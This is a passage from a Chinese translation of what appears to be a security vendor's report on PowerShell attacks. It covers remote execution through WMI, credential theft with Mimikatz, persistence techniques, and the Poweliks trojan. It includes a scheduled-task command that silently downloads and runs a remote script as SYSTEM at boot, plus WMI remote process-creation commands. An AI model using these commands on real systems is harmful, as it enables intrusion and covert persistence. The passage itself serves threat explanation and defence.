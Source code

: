 ```c
([WMICLASS]\\$IP\ROOT\CIMV2:win32_process).Create($Command2run)
```


同样的方法也适用于 WMI command-line 工具: 
 
```c
 Wmic /NODE:[SERVER NAME] process call create “powershell.exe –Enc ‘[PAYLOAD]’” 
```

此外 powershell 支持 WMI 对象，准许脚本直接用 WMI 的功能不需要调用外部命令行。 
 
```C
Get-WmiObject –Namespace “root\cimv2” –Class Win32_Process –Impersonation 3 – Credential MYDOM\administrator –ComputerName $Computer 
```
#### Profile injection(配置文件注入) 

如果攻击者有向远程计算机powershell配置文件写入权限，他们可以增加恶意代码到里面，此方法任然需要启动 powershell 来执行恶意脚本。但是在一些环境中，会有执行脚本的常规管理任务。 

#### Other methods 

其它的策略包含使用系统或公共工具，比如微软自带的 Task Sheduler 或者 PsExec。为了使用 PsExec或者访问远程计算机时，攻击者通常需要一个有效的凭据。获取这些详细信息的最常见方法是使用 Mimikatz 工具。爆出本地的密码。此工具有许多 powershell 的实现，比如Invoke-Mimikatz。 

### PERSISTENCE（持久控制） 

一些针对性的攻击者获取目标权限后，会试图保持控制权限，创建持久的加载点，当 windows 重启后，依然自动启动后门。在一些复杂的攻击活动中，加载点可能不存在，因为攻击者可能会在短时间只会在内存中执行恶意程序，或者窃取凭据，以便以后重新访问计算机。但总的来说加载点创建一个好的后门启动，方便下次入侵。有很多方法可以在 winows 重启后执行代码。最常见的与 powershell 有关的是: 

- **Registry:** 攻击者可以存储整个脚本在注册表中。减少落地文件。因为磁盘上没有普通的脚本文件在磁盘上。增加了检测威胁的难度。Registry run 键是最常见的加载点。但是其他的加载点例如服务也能正常工作。通过访问注册表，攻击者还可以修改执行策略。因为它存储在注册表中。 
- **Scheduled tasks(计划任务):**一个新任务可以创建一个在指定时间执行powershell 命令的任务。
例如: 

```
schtasks /create /tn name /tr “powershell.exe –WindowStyle hidden –NoLogo –
    NonInteractive  –ep     bypass  –nop    –c  ‘IEX    ((new-object 
net.webclient).downloadstring(“[REMOVED]”))’” /sc onstart /ru system 
```

> (译者注: 
> /tn 计划名字 
> /tr 执行的命令 
> /sc 执行的模式，onstart 为启动时执行 
> /ru 使用哪个用户执行，默认为当前用户  ) 

- **Startup folder（启动文件夹）:** 一个小的脚本文件可以放在启动文件夹来保持启动。 
-  **WMI:** WMI 可以用在本地或远程执行脚本，同 powershell 组合使用将会有很多强大的功能，攻击者可以为任何特定事件创建筛选器，并创建使用者方法在这些事件上触发恶意脚本。了解更多关于 WMI 威胁，可以查阅 BlackHat 上 Graeber 的分享。 
- **Group policies（GPOs）:**组策略可以用来为 powershell 后门添加一个启动点。它可以隐藏在一个已经存在的组策略里面。 
- **Infect local profiles(感染本地配置文件)：** 攻击者可以将恶意代码存放在 6 个可用的 powershell 配置文件里，或者另外创建一个自定义的。当 powershell 启动时，这个代码就会被执行，为了触发受感染的配置文件，一个良性的 powershell 脚本可以放在前面讨论的任何加载点。 
 
#### Poweliks 

注册表键值保持持久性最突出的示例之一是从 2014 年起的 Trojan.Poweliks。使用 powershell 来创建一个无落地文件的持久启动点，在此之后，Trojan.Kotver 开始使用类似的技巧，它是当今最活跃的威胁之一。 
创建一个使用非 ASCII 字符作为名称的注册表运行键，这可以防止正常工具显示此值，这类威胁还会修改访问权限，增加删除该键的难度。 
